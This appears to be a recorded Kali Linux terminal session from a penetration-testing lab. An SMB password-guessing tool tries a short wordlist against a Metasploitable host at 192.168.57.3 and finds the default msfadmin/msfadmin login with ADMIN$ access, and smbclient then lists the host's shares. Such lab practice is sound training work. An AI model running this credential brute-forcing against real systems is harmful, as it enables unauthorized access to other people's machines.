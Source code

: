 2025-10-29 13:15:27 ACCOUNT CHECK: [smbnt] Host: 192.168.57.3 (1 of 1, 0 complete) User: service (3 of 3, 2 complete) Password: qwerty\password (1 of 4 complete)
2025-10-29 13:15:27 ACCOUNT CHECK: [smbnt] Host: 192.168.57.3 (1 of 1, 0 complete) User: service (3 of 3, 3 complete) Password: msfadmin (2 of 4 complete)
2025-10-29 13:15:27 ACCOUNT CHECK: [smbnt] Host: 192.168.57.3 (1 of 1, 0 complete) User: service (3 of 3, 3 complete) Password: Welcome123 (3 of 4 complete)
2025-10-29 13:15:28 ACCOUNT CHECK: [smbnt] Host: 192.168.57.3 (1 of 1, 0 complete) User: service (3 of 3, 3 complete) Password: n123456 (4 of 4 complete)
2025-10-29 13:15:29 ACCOUNT CHECK: [smbnt] Host: 192.168.57.3 (1 of 1, 0 complete) User: msfadmin (2 of 3, 3 complete) Password: Welcome123 (1 of 4 complete)
2025-10-29 13:15:29 ACCOUNT CHECK: [smbnt] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 3 complete) Password: n123456 (1 of 4 complete)
2025-10-29 13:15:29 ACCOUNT CHECK: [smbnt] Host: 192.168.57.3 (1 of 1, 0 complete) User: msfadmin (2 of 3, 3 complete) Password: msfadmin (2 of 4 complete)
2025-10-29 13:15:29 ACCOUNT FOUND: [smbnt] Host: 192.168.57.3 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
2025-10-29 13:15:29 ACCOUNT CHECK: [smbnt] Host: 192.168.57.3 (1 of 1, 0 complete) User: msfadmin (2 of 3, 4 complete) Password: qwerty\password (3 of 4 complete)
2025-10-29 13:15:29 ACCOUNT CHECK: [smbnt] Host: 192.168.57.3 (1 of 1, 0 complete) User: msfadmin (2 of 3, 4 complete) Password: n123456 (4 of 4 complete)
2025-10-29 13:15:29 ACCOUNT CHECK: [smbnt] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 4 complete) Password: Welcome123 (2 of 4 complete)
2025-10-29 13:15:29 ACCOUNT CHECK: [smbnt] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 4 complete) Password: qwerty\password (3 of 4 complete)
2025-10-29 13:15:29 ACCOUNT CHECK: [smbnt] Host: 192.168.57.3 (1 of 1, 0 complete) User: user (1 of 3, 4 complete) Password: msfadmin (4 of 4 complete)
                                                                                                                                                                     
┌──(root㉿kali)-[/home/kali]
└─# smbclient -L //192.168.57.3 -U msfadmin
Password for [WORKGROUP\msfadmin]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
        msfadmin        Disk      Home Directories
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            METASPLOITABLE
                                                                                                                                                                     
┌──(root㉿kali)-[/home/kali]
└─# exit                                                                       

Script done on 2025-10-29 13:23:47-04:00 [COMMAND_EXIT_CODE="0"]
